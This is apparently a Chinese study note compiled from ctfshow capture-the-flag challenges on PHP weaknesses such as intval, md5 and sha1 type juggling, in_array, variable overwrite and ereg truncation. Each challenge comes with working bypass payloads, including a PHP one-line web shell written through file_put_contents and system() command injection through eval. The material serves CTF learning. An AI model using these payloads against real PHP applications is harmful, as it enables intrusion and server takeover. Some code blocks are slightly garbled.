

# PHP特性(网友根据ctfshow整理)

- [PHP特性(网友根据ctfshow整理)](#php特性网友根据ctfshow整理)
- [一、intval()函数](#一intval函数)
- [二、多行匹配](#二多行匹配)
- [3.== 弱类型与路径问题](#3-弱类型与路径问题)
  - [highlight\_file 显示伪协议](#highlight_file-显示伪协议)
- [4.md5（）](#4md5)
- [5.三目运算符的理解+变量覆盖](#5三目运算符的理解变量覆盖)
- [6\. in\_array()函数](#6-in_array函数)
- [7.is\_numeric()函数](#7is_numeric函数)
  - [优先级](#优先级)
- [8.and与&&的区别+反射类ReflectionClass的使用](#8and与的区别反射类reflectionclass的使用)
- [9.call\_user\_func（）](#9call_user_func)
  - [is\_numeric（）](#is_numeric)
- [10.sha1（）](#10sha1)
- [11变量覆盖](#11变量覆盖)
  - [die(\$error)](#dieerror)
  - [Foreach（）](#foreach)
- [12.parse\_str函数（）](#12parse_str函数)
- [13.ereg()函数%00截断](#13ereg函数00截断)
- [15.FilesystemIterator类](#15filesystemiterator类)


# 一、intval()函数


 **例子1**

```Plain Text
例子1
if(preg_match("/[0-9]/", $num)){<!-- --> 
        die("no no no!"); 
    } 
    if(intval($num)){<!-- --> 
        echo $flag; 

```
不能用数字，读源码我们知道，不能输入数字，所以科学技术法、等等都不能绕过，但是不是没有漏洞?，数组有参数情况下，可以绕过 前面的例子说`数组带值的情况下，是有返回1`

payload：

```Plain Text
?num[]=asdas
?num[]=1
?num[]=’sad’

```
**例子2**

```Plain Text
if($num==="4476"){<!-- -->   #绕过这个
        die("no no no!"); 
    } 
    if(intval($num,0)===4476){<!-- --> 
        echo $flag; 
    }else{<!-- --> 
        echo intval($num,0); 
    } 


```
`如果 base 是 0，通过检测 var 的格式来决定使用的进制： 因为可以通过进制绕过的方式，我们可以选择 16进制 8进制d等等`

构造payload

```Plain Text
?num=0b1000101111100  转换为二进制
?num=0o10574  转换为八进制没有成功
?num=0x117c  转换为16进制

```
构造2 intval 相当于一个弱语言==

```Plain Text
构造2
使用特征 弱语言特征
4476a php特征
4476a  实际上是==4476
?num=4476a    a\b\c\d都可以


```
```Plain Text
参考羽师傅
intval('4476.0')===4476    小数点  
intval('+4476.0')===4476   正负号
intval('4476e0')===4476    科学计数法
intval('0x117c')===4476    16进制
intval('010574')===4476    8进制
intval(' 010574')===4476   8进制+空格


```
例子3 是例子2的不同

```Plain Text
if($num==4476){<!-- -->   #这个==
        die("no no no!"); 
    } 
    if(intval($num,0)==4476){<!-- --> 
        echo $flag; 
    }else{<!-- --> 
        echo intval($num,0); 

```
用4476a是无法绕过==，弱比较下两者直接相等.

其他都可以用**列子1**的解法

新的一种绕过方式

```Plain Text
用4476a是无法绕过第六行的，弱比较下两者直接相等


加另外一种
e这个字母比较特殊，在PHP中会被当作科学计数法。这是PHP在处理字符串时的一个缺陷

所以为了绕过第6行：==4476，我们就可以构造4476e123,被认为是科学计数法，值是：4476×10^123
第9行intval()函数处理时遇到字母就停止，所以只读取4476而不是4476e123，从而绕过
Payloda:
?num=4476e123


```
**列子4**

```Plain Text
$num = $_GET['num']; 
    if($num==4476){<!-- --> 
        die("no no no!"); 
    } 
    if(preg_match("/[a-z]/i", $num)){<!-- --> 
        die("no no no!"); 
    } 
    if(intval($num,0)==4476){<!-- --> 
        echo $flag; 
    }else{<!-- --> 
        echo intval($num,0); 
    } 


```
可以看到过滤了所以字母并且不区分大小写 正好八进制没有字母

>  构造 intval(‘010574’)===4476 8进制 intval(‘4476.0’)===4476 小数点 ?num=010574 

**列子5**

```Plain Text
 $num = $_GET['num']; 
    if($num==="4476"){<!-- --> 
        die("no no no!"); 
    } 
    if(preg_match("/[a-z]/i", $num)){<!-- --> 
        die("no no no!"); 
    } 
    if(!strpos($num, "0")){<!-- --> 
        die("no no no!"); 
    } 
    if(intval($num,0)===4476){<!-- --> 
        echo $flag; 
    } 


```
比例子4有多了，strpos(\$num, “0”) strpos()限制了传参第一位不能为0，如果为0，就die

>  通过换行符%0a 、空格符%20结合八进制绕过 payload： ?num=%0a010574 ?num=%20010574 直接空格也行： ?num= 010574（空格+010574） ?num=4476.0 

**列子6**

```Plain Text
if($num==4476){<!-- --> 
        die("no no no!"); 
    } 
    if(preg_match("/[a-z]|\./i", $num)){<!-- --> 
        die("no no no!!"); 
    } 
    if(!strpos($num, "0")){<!-- --> 
        die("no no no!!!"); 
    } 
    if(intval($num,0)===4476){<!-- --> 
        echo $flag; 


```
多了一个匹配`\.` 除了换行以外所有字符 只能用空格了 过滤了 换行和.字符了

>  ?num=%20010574 

**参考** 

新例子来自 \[WUSTCTF2020\]朴实无华 


 GET接收num传参，num要小于2020，加1之后要大于2021，否则要么die，要么还是die 随后查询intval()函数的使用方式，发现如果intval函数参数填入科学计数法的字符串，会以e前面的数字作为返回值而对于科学计数法+数字则会返回字符串类型 


# 二、多行匹配
**列子1**

```Plain Text
include('flag.php'); 
$a=$_GET['cmd']; 
if(preg_match('/^php$/im', $a)){<!-- --> #以php开头^并且以它结尾$，多行匹配m，存在一行就可以了
    if(preg_match('/^php$/i', $a)){<!-- --> #以php开头并且以它结尾 不用匹配多行
        echo 'hacker'; 
    } 
    else{<!-- --> 
        echo $flag; 
    } 
} 
else{<!-- --> 
    echo 'nonononono'; 
}


```
>  参考羽师傅 构造 payload: ?cmd=%0aphp %0aphp 经过第一个匹配时，以换行符为分割也就是%0a，前面因为是空的，所以只匹配换行符后面的，所以可以通过。 经过第二个正则表达式时，因为我们是%0aphp 不符合正则表达式的以php开头以php结尾。所以无法通过，最后输出flag 

# 3.== 弱类型与路径问题
## highlight\_file 显示伪协议
**列子1**

```Plain Text
<?php 

highlight_file(__FILE__); 

if(isset($_GET['u'])){<!-- --> 
    if($_GET['u']=='flag.php'){<!-- --> 
        die("no no no"); 
    }else{<!-- --> 
        highlight_file($_GET['u']); 
    } 
}


```
`可以看到== 只要不等于flag.php`

>  高亮显示 highlight\_file /var/www/html/flag.php 绝对路径 ./flag.php 相对路径 ./绕过== php://filter/resource=flag.php php伪协议 php://filter/read=convert.base64-encode/resource= flag.php /.编码形式 

# 4.md5（）
列子

```Plain Text
<?php 

include("flag.php"); 
highlight_file(__FILE__); 
if (isset($_POST['a']) and isset($_POST['b'])) {<!-- --> 
if ($_POST['a'] != $_POST['b']) 
if (md5($_POST['a']) === md5($_POST['b'])) 
echo $flag; 
else 
print 'Wrong.'; 
} 
?>

```
>  原因：md5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是强相等的。 payload:a\[\]=1&b\[\]=2 构造 强比较 a\[\]=1&b\[\]=2  构造2 强碰撞 不利用数组，而是使用md5一致但不同的两个字符串 这是经过URL编码的两个字符串，他们的md5值是相等的 原理是将hex字符串转化为ascii字符串，并写入到bin文件 考虑到要将一些不可见字符传到服务器，这里使用url编码 a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3\_Bu%93%D8Igm%A0%D1U%5D%83%60%FB\_%07%FE%A2 &b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3\_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB\_%07%FE%A2 

**参考**    

# 5.三目运算符的理解+变量覆盖
**列子**

```Plain Text
<?php 
include("flag.php"); 
$_GET?$_GET=&$_POST:'flag'; 
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag'; 
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag'; 
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__); 

?>


```
```Plain Text
考点是PHP里面的三元运算符和传址(引用) 传址(引用)有点像c语言里面的地址 我们可以修改一下代码
<?php
include('flag.php');
if($_GET){<!-- -->
$_GET=&$_POST;//只要有输入的get参数就将get方法改变为post方法(修改了get方法的地
址)
}else{<!-- -->
"flag";
} i
f($_GET['flag']=='flag'){<!-- -->
$_GET=&$_COOKIE;
}else{<!-- -->
'flag';
1 2 3 4 5 6 7 8 9
10
11所以我们只需要 GET一个?HTTP_FLAG=flag 加 POST一个HTTP_FLAG=flag
中间的代码没有作用，因为我们不提交 flag 参数


```
```Plain Text
&是引用符号，意思是：不同的名字访问同一个变量内容。php的引用是在变量或者函数、对象等前面加上&符号，PHP 的引用允许你用两个变量来指向同一个内容
$_GET?$_GET=&$_POST:'flag';意思：如果有GET方法传参，就将GET方法改为POST方法

highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__)意思：如果有通过GET方法传参'HTTP_FLAG=flag'，就highlight_file($flag)。否则highlight_file(__FILE__)

中间的代码没有作用，因为我们不提交 flag 参数


$_GET?$_GET=&$_POST:'flag';  //只要有输入的get参数就将get方法改变为post方法(修改了get方法的地址)
那么看最后要求$_GET['HTTP_FLAG']=='flag'?$flag:__FILE__那么我们就可以直接随意get传参一个，然后post传参HTTP_FLAG=flag即可获得flag.


根据第一条可知，如果get传了一个值，那么就可以用post覆盖get中的值。
中间两行意义不大。
最后一行是,如果get传了一个HTTP_FLAG=flag就输出flag否则显示index.php源码。
所以我们get随便传一个，然后post传 HTTP_FLAG=flag即可
payload get：1=1 post：HTTP_FLAG=flag


```
参考 https://www.php.cn/php-notebook-172859.html https://www.php.cn/php-weizijiaocheng-383293.html

# 6\. in\_array()函数
in\_array() 函数搜索数组中是否存在指定的值。 


 漏洞例子：

```Plain Text
 $array=[0,1,2,'3'];
  var_dump(in_array('a', $array));            //bool(true)
  var_dump(in_array('1a', $array));            //bool(true)
  var_dump(in_array('1', $array, true));    //bool(false)


```
`可以理解为，当type == false时，使用==进行比较；当type == true时，使用===进行比较。（个人理解，欢迎纠正）`

**列子2**

```Plain Text
<?php 
highlight_file(__FILE__); 
$allow = array(); 
for ($i=36; $i < 0x36d; $i++) {<!-- -->    //877
    array_push($allow, rand(1,$i));    参数很多随机的数字，
} 
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){<!-- -->
//in_array() 函数搜索数组中是否存在指定的值。 
    file_put_contents($_GET['n'], $_POST['content']); 
} 
//file_put_contents — 将一个字符串写入文件(前面是文件名，后面是内容)
?>


```
```Plain Text
构造

$allow = array(1,'2','3');   ==
var_dump(in_array('1.php',$allow));   //bool(true)

$allow = array(1,'2','3');   ===
var_dump(in_array('1.php',$allow,true));   //bool(false)


```
```Plain Text
构造1
in_array延用了php中的==
具体内容可以查看php手册->附录->PHP类型比较表
因为新加进去的随机数字每次都包含1，1存在的几率是最大的。
所以直接写 n=1.php post:content=<?php eval($_POST[1]);?>多试几次即可
写一句话木马然后直接菜刀链接


```
```Plain Text
方式2：在in_array()中n=1.php就会转化成n=1，此外通过file_put_contents()创建一个文件写入php代码
?n=666.php
content=<?php system("ls");?> 
访问666.php即可

content=<?php system("tac flag36d.php");?>


```
# 7.is\_numeric()函数
如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE，注意浮点型返回空值，即 FALSE。

`注意16进制中，在php5 返回是真，而php7返回假` 



## 优先级


```Plain Text
&&与||的优先级高于=

```
\=的优先级高于and与or 


 **列子**

```Plain Text
<?php 

highlight_file(__FILE__); 
include("ctfshow.php"); 
//flag in class ctfshow; 
$ctfshow = new ctfshow(); 
$v1=$_GET['v1']; 
$v2=$_GET['v2']; 
$v3=$_GET['v3']; 
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); 
if($v0){<!-- --> 
    if(!preg_match("/\;/", $v2)){<!-- --> 
        if(preg_match("/\;/", $v3)){<!-- --> 
            eval("$v2('ctfshow')$v3"); // eval() 函数把字符串按照 PHP 代码来计算。  


```
`既然如此，$v1为数字即可让$v0为True 优先级问题`

V2不能有分号， V3必须有一个分号 `eval("$v2('ctfshow')$v3") //意思是显示ctfshow 不是flag.php`

```Plain Text
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;   看懂  //利用注释符号/**/

直接输出$ctfshow;构造出 var_dump($ctfshow);
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;


```
```Plain Text
因为过滤的字符比较少，所以可以直接执行命令。
方法不固定，在此聚两个例子
v1=1&v2=?><?php echo `ls`?>/*&v3=;*/
v1=1&v2=-system('ls')-&v3=-1;


```
还实行一句话 


# 8.and与&&的区别+反射类ReflectionClass的使用
ReflectionClass  举个简单的例子

```Plain Text
<?php
class A{<!-- -->
public static $flag="flag{123123123}";
const  PI=3.14;
static function hello(){<!-- -->
    echo "hello</br>";
}
}
$a=new ReflectionClass('A');


var_dump($a->getConstants());  获取一组常量
输出
 array(1) {<!-- -->
  ["PI"]=>
  float(3.14)
}

var_dump($a->getName());    获取类名
输出
string(1) "A"

var_dump($a->getStaticProperties()); 获取静态属性
输出
array(1) {<!-- -->
  ["flag"]=>
  string(15) "flag{123123123}"
}

var_dump($a->getMethods()); 获取类中的方法
输出
array(1) {<!-- -->
  [0]=>
  object(ReflectionMethod)#2 (2) {<!-- -->
    ["name"]=>
    string(5) "hello"
    ["class"]=>
    string(1) "A"
  }
}


```
**题目列子**

```Plain Text
<?php 

highlight_file(__FILE__); 
include("ctfshow.php"); 
//flag in class ctfshow; 
$ctfshow = new ctfshow(); 
$v1=$_GET['v1']; 
$v2=$_GET['v2']; 
$v3=$_GET['v3']; 
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); 
if($v0){<!-- --> 
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){<!-- --> 
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){<!-- --> 
            eval("$v2('ctfshow')$v3"); 
        } 
    } 

} 

?>


```
跟7差不多，但是过滤了很多。因此

>  构造 payload:?v1=1&v2=echo new ReflectionClass&v3=; 

# 9.call\_user\_func（）
## is\_numeric（）
先学几个函数

**Substr（）** 


 **is\_numeric（）前面介绍过了**

**call\_user\_func（）回调函数** 


 **file\_put\_contents() 函数把一个字符串写入文件中。**


**列子源码**

```Plain Text
<?php 


highlight_file(__FILE__); 
$v1 = $_POST['v1']; 
$v2 = $_GET['v2']; 
$v3 = $_GET['v3']; 
$v4 = is_numeric($v2) and is_numeric($v3); 
if($v4){<!-- --> 
    $s = substr($v2,2); //从2开始切分
    $str = call_user_func($v1,$s);  回调函数 
    echo $str; 
    file_put_contents($v3,$str);   把字符串文件写入v3
} 
else{<!-- --> 
    die('hacker'); 
} 


?>


```


 


构造 思路：通过写入的`$v2`全为数字，转化为字符`$str`，然后写入文件，然后访问文件得到所需 使用base64编码为字符，然后转化为全为数字的16进制得到\$v3 关键就是什么代码base64编码后再转为十六进制为全数字

```Plain Text
>$a="xxx";
$b=base64_encode($a);
$c=bin2hex($b);
如果$c全部都是纯数字就可以了。
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
输出   5044383959474e6864434171594473
带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。

>最终payload：v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin

```
**提升例子**

```Plain Text
<?php 


highlight_file(__FILE__); 
$v1 = $_POST['v1']; 
$v2 = $_GET['v2']; 
$v3 = $_GET['v3']; 
$v4 = is_numeric($v2) and is_numeric($v3); 
if($v4){<!-- --> 
    $s = substr($v2,2); 
    $str = call_user_func($v1,$s); 
    echo $str; 
    if(!preg_match("/.*p.*h.*p.*/i",$str)){<!-- --> 
        file_put_contents($v3,$str); 
    } 
    else{<!-- --> 
        die('Sorry'); 
    } 
} 
else{<!-- --> 
    die('hacker'); 
} 

?>


```
```Plain Text
跟上面差不多知识。
但是有正则匹配了，
if(!preg_match("/.*p.*h.*p.*/i",$str)){<!-- -->

```
```Plain Text
#构造
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
#访问1.php后查看源代码获得flag

```
# 10.sha1（）
哈希和MD5差不多，看MD5

**列子1**

```Plain Text
<?php 
highlight_file(__FILE__); 

include("flag.php"); 

if(isset($_POST['v1']) && isset($_GET['v2'])){<!-- --> 
    $v1 = $_POST['v1']; 
    $v2 = $_GET['v2']; 
    if(sha1($v1)==sha1($v2)){<!-- --> 
        echo $flag; 
    } 
} 
?>


```
```Plain Text
考察点：hash比较缺陷

出题人出的有些失误，没有判断v1与v2的值，所以直接传post: v1=a get: v2=a就可以了,也可以用数组绕过


```
与md5一样，可利用0e科学计数法达到伪相等

payload: v1=aaK1STf //0e7665852665575620768827115962402601 科学计数法都是相等 v2=aaO8zKZF //0e89257456677279068558073954252716165 科学计数法都是相等

只要开头是0e结尾都字符都可以的绕过的。

**列子2**

```Plain Text
<?php 


highlight_file(__FILE__); 
include("flag.php"); 

if(isset($_POST['v1']) && isset($_GET['v2'])){<!-- --> 
    $v1 = $_POST['v1']; 
    $v2 = $_GET['v2']; 
    if(sha1($v1)==sha1($v2) && $v1!=$v2){<!-- --> 
        echo $flag; 
    } 
} 


?>


```
多了 $v1!=$v2

```Plain Text
payload:
v1=aaK1STf    //0e7665852665575620768827115962402601   科学计数法都是相等
v2=aaO8zKZF   //0e89257456677279068558073954252716165  科学计数法都是相等

只要开头是0e结尾都字符都可以的绕过的。


```
# 11变量覆盖
## die(\$error)
die(\$error);漏洞 输出相当于echo一样

## Foreach（）
参考漏洞 https://blog.csdn.net/weixin\_39664643/article/details/109121130 https://blog.csdn.net/qq\_38154820/article/details/115154181

**列子学习**

```Plain Text
<?php 
highlight_file(__FILE__); 
include('flag.php'); 
error_reporting(0); 
$error='你还想要flag嘛？'; 
$suces='既然你想要那给你吧！'; 
foreach($_GET as $key => $value){<!-- --> 
    if($key==='error'){<!-- --> 
        die("what are you doing?!"); 
    } 
    $$key=$$value; 
}foreach($_POST as $key => $value){<!-- --> 
    if($value==='flag'){<!-- --> 
        die("what are you doing?!"); 
    } 
    $$key=$$value; 
} 
if(!($_POST['flag']==$flag)){<!-- --> 
    die($error); 
} 
echo "your are good".$flag."\n"; 
die($suces); 

?> 


```
```Plain Text
构造

这里有三个变量：
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
$flag   不知道，这就是我们要输出的变量

如何输出变量$flag？
利用变量覆盖

?suces=flag        #GET  $suces=$flag
error=suces        #POST $error=$suces(此时，$flag的值就传给了$suces和$error)


die($error);  利用这个漏洞直接把值输入
利用($_POST['flag']!==$flag)输出$error，这样就输出了$flag


```
# 12.parse\_str函数（）


 


 


 


列子源码

```Plain Text
<?php

highlight_file(__FILE__); 
error_reporting(0); 
include("flag.php"); 

if(isset($_POST['v1'])){<!-- --> 
    $v1 = $_POST['v1']; 
    $v3 = $_GET['v3']; 
       parse_str($v1,$v2); 
       if($v2['flag']==md5($v3)){<!-- --> 
           echo $flag; 
       } 

} 

?>

```
```Plain Text
构造

parse_str — 将字符串解析成多个变量

parse_str ( string $encoded_string [, array &$result ] ) : void

如果设置了第二个变量 result， 变量将会以数组元素的形式存入到这个数组，作为替代。

举个例子

$a='q=123&p=456';
parse_str($a,$b);
echo $b['q'];   //输出123
echo $b['p'];   //输出456

利用md5无法输出数组，返回是NULL的情况

?v3[]=1   #GET
v1="flag=0"   #POST  ///为什么用引号呢? 可能因为数组对于也是字符的可能


```


 不知道为什么需要用双引号

>  md5在线科学计数法 GET: ?v3=240610708 POST: v1=flag=0 


# 13.ereg()函数%00截断


 **函数介绍** strrev() 字符串反转 intval() 获取变量的整数值 %00是字符串的结束标识符

**列子**

```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {<!-- -->
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){<!-- --> //877
    echo $flag;
}

?>


```
`\^[a-zA-Z]+$这个正则意思是：匹配所有大小写字母一次或者多次（+号：一次或者多次） $是以这个结尾，^以这个开始`

```Plain Text
构造

payload:c=a%00778
首先正则表达式只会匹配%00之前的内容，后面的被截断掉，可以通过正则表达式检测，后面通过反转成877%00a，再用intval函数获取整数部分得到877，877为0x36d的10进制。


```
* \# 14.Exception报错函数（）
* \## ReflectionClass 打印类结果

Exception 通过异常处理类Exception(system(‘cmd’))可以运行指定代码，并且能返回运行的结果（如果存在返回）

```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){<!-- -->
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){<!-- -->
            eval("echo new $v1($v2());");
    }

}

?>


```
考察点：php 异常类 先来看下这个正则表达式/\[a-zA-Z\]+/ 匹配至少有一个字母的字符串 所以我们只要让new后面有个类不报错以后，就可以随意构造了。我们随便找个php中的内置类并且可以直接echo输出的就可以了。 举两个例子 Exception ReflectionClass 打印类的结构

```Plain Text
答案不唯一

payload:
v1=Exception();system('tac f*');//&v2=a               //是注释掉后面的括号
v1=ReflectionClass&v2=system('tac f*')            // 为什么不要注释符号呢？ 


不好用
payload
v1=Exception&v2=system("cat f*")   ///()() 也可以实行么？很奇怪这里

v1=ReflectionClass&v2=system("cat f*")


Exception 异常处理类 http://c.biancheng.net/view/6253.html 
payload: ?v1=Exception&v2=system('cat fl36dg.txt')
 ?v1=Reflectionclass&v2=system('cat fl36dg.txt')


```
# 15.FilesystemIterator类


**列子**

```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){<!-- -->
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){<!-- -->
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){<!-- -->
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>


```
```Plain Text
所以我们只需要再得到一个点或者路径就可以查看当前目录下的文件，得到一个/查看根目录下的文件。php中的getcwd()可以帮到我们这个忙。

getcwd()
getcwd — 取得当前工作目录
getcwd(void):string

payload:v1=FilesystemIterator&v2=getcwd
题目的话有个缺陷，如果flag所在的文件不是排在第一位的话，我们可能就没有办法得到flag。


考察：php内置类 利用 FilesystemIterator 获取指定目录下的所有文件 http://phpff.com/filesystemiterator https://www.php.net/manual/zh/class.filesystemiterator.php

getcwd()函数 获取当前工作目录 返回当前工作目录 payload: ?v1=FilesystemIterator&v2=getcwd


```
[office](xpsMGNQTvP-NtoLoQZi5l5Lc590znhKqpL96YVzYAOY.pdf)

